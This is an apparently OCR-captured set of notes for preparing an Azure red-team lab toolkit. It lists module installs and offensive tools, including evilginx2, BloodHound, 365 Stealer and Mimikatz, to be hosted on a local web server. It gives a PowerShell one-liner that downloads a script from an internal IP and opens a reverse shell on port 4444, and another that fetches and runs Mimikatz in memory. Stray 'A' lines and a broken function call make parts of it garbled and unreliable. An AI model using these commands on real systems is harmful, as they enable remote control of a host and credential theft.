 https://github.com/mgeeky/AzureRT

```
Install-Module Az -Force -Confirm -AllowClobber -Scope AllUsers

A
Install-Module AzureAD -Force -Confirm -AllowClobber -Scope AllUsers

A
echo "##########################################################################"
echo "###########################Next part is optional###########################"
echo "##########################################################################"

Install-Module Microsoft.Graph -Force -Confirm -AllowClobber -Scope AllUsers

A
Install-Module MSOnline -Force -Confirm -AllowClobber -Scope AllUsers

A
Install-Module AzureADPreview -Force -Confirm -AllowClobber -Scope AllUsers

A
Install-Module AADInternals -Force -Confirm -AllowClobber -Scope AllUsers

A
```

```
Import-Module Az
Import-Module AzureAD
```


Download:
- XAMPP
- evilginx2
- Bloodhound
- Neo4j
- ROADTools

Put in `C:\xampp\htdocs`:
- 365 Stealer
- ```Invoke-Mimikatz.ps1```
- ```Invoke-PowerShellTcp.ps1```
- ```studentx.ps1``` (uses the invoke-powershell.ps1 script to establish revshell):
```
powershell "IEX (New-Object Net.Webclient).downloadstring('http://172.16.152.213/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress 172.16.152.213 -Port 4444"
```

* * * 
* * * 
addendum

Run tools directly:
```
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
```

